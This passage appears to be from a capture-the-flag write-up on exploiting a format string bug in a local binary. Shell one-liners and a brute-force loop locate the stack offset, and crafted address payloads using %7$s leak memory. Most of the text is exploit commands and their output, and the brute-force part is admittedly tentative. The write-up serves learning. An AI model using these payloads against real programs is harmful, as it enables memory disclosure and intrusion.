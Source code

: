 Output:

```
Hello: AAAA|40|f7739580|80482f3|0|ff9cefa4|0|41414141
```

As we can see, the seventh block is confirmed to be the one we want to exploit. We can narrow down to the Nth position in a short string as follows:

`echo -e 'AAAA|%7$x' | ./binary`

Output:

```
Hello: AAAA|41414141
```

I also modified a script to be able to automatically do this for you:

```BASH
for ((i = 1; i < 200; i++)); do 
	echo -e "AAAA%${i}\$x" | ./binary | grep "41414141" && echo -e "Match on line: ${i}" && break
done
```

Output:

```
What is your username: Hello: AAAA41414141
Match on line: 7
```

**Brute Force**:

Not 100% where to go from here, but this is a thing.

`echo -e 'AAAA|%u%u%u%u%u%u|%08x|' | ./binary`

`echo -e '\x4c\xa0\x04\x08|%u%u%u%u%u%u|%08x|' | ./binary`

`echo -e '\x4c\xa0\x04\x08|%u%u%u%u%u%u|___________%%|%s|' | ./binary`

Now we know that we're targeting the 7th parameter on the stack, we can test it on current known strings. Radare tells us that a string "cat_._authenticated.txt" exists at 0x80487b2.

`push str.cat_._authenticated.txt ; 0x80487b2`

The format we want to use is: `echo -e '<address>AA%<parameter>\$s'`

* The address is "backwards" because it's little endian (if we go back to our readelf output, it tells us that).

* AA is a buffer so we can clearly see the text.

* We are targeting the 7th parameter.

* We want to print a string (s).

```
[nick@box Desktop]$ echo -e "\xb2\x87\x04\x08AA%7\$s" | ./binary
Hey, it's Dan again. This is a pretty cool program I made for managing my password. For some reason I can't get it to work though :\.
What is your username: Hello: <?><?>AAcat ./authenticated.txt

You are the incorrect user
```
